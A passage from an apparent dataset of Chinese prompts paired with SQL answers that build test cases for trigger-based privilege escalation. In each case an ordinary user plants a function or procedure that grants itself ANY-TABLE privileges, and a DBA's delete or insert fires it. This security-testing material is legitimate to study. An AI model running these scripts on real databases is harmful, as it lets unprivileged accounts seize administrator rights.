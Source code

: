 --DBA用户
--删除数据，触发触发器进行授权
DELETE FROM USER1.T5 WHERE ID = 1

--USER1用户
--查看权限
SELECT * FROM USER_SYS_PRIVS;"
生成一组测试用例，能够反应触发器通过调用函数实现间接提权功能,user1用户是普通用户，创建函数执行授权任意该用户未有的权限，创建删除后触发器，执行该函数。使用DBA用户删除user1用户的表，触发触发器调用函数进行授权,"--USER1用户
--创建表
CREATE TABLE T6(ID INT, NAME VARCHAR(20));

--插入数据
INSERT INTO T6 VALUES(1, 'USER1');

--创建授权函数
CREATE OR REPLACE FUNCTION GRANT_ANY
RETURN VARCHAR2
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT GRANT ANY TABLE TO USER1';
    COMMIT;
    RETURN 'GRANTED';
END;

--创建触发器，调用函数
CREATE OR REPLACE TRIGGER DELETE_GRANT_ANY
BEFORE DELETE ON USER1.T6
FOR EACH ROW
BEGIN
 --调用函数
 CALL GRANT_ANY();
END;

--DBA用户
--删除数据，触发触发器进行授权
DELETE FROM USER1.T6 WHERE ID = 1;

--USER1用户
--查看权限
SELECT * FROM USER_SYS_PRIVS;"
生成一组测试用例，能够反应触发器通过调用存储过程实现间接提权功能,user1用户是普通用户，创建存储过程执行授权任意该用户未有的权限，创建插入前触发器，执行该存储过程，使用DBA用户插入user1用户的表中，触发触发器调用存储过程进行授权,"--USER1用户
--创建表
CREATE TABLE T1(ID VARCHAR(50));

--创建授权存储过程
CREATE OR REPLACE PROCEDURE DUMP_ANY_TABLE
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT DUMP ANY TABLE TO USER1';
    COMMIT;
END;
